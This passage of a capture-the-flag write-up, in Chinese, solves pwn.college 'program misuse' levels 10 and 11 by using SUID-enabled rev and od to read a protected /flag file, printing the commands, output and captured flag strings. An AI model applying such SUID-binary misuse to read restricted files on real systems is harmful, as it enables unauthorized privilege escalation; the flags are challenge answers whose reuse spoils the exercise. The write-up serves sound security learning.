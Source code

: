 ```
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/rev.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level10) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/rev!
```
`rev`是反序输出的工具

但是难不住我
```
hacker@program-misuse-level-10:~$ rev /flag
}WzMyMjQ2LDE1Ml0.iqRmReNkY5WaIyBZQULv-MYk7kI{egelloc.nwp
hacker@program-misuse-level-10:~$ rev /flag | rev
pwn.college{Ik7kYM-vLUQZByIaW5YkNeRmRqi.0lM1EDL2QjMyMzW}
hacker@program-misuse-level-10:~$
```

## level11 Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse-level-11:~$ sh file.sh
Welcome to ./babysuid_level11!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/od.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level11) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/od!
```
`od`通常用于以八进制或十六进制格式显示文件的内容。
```
hacker@program-misuse-level-11:~$ od -A x -t x1z -v /flag
000000 70 77 6e 2e 63 6f 6c 6c 65 67 65 7b 73 4b 47 35  >pwn.college{sKG5<
000010 6d 6b 70 75 44 35 38 63 71 76 44 65 33 32 39 4e  >mkpuD58cqvDe329N<
000020 57 6c 4f 36 31 41 39 2e 30 31 4d 31 45 44 4c 32  >WlO61A9.01M1EDL2<
000030 51 6a 4d 79 4d 7a 57 7d 0a                       >QjMyMzW}.<
000039
hacker@program-misuse-level-11:~$
```
看了文档就会了，这个命令直接写在文档里。
```
pwn.college{sKG5mkpuD58cqvDe329NWlO61A9.01M1EDL2QjMyMzW}
```

## level12 Requires you to understand their output to derive the flag from it!
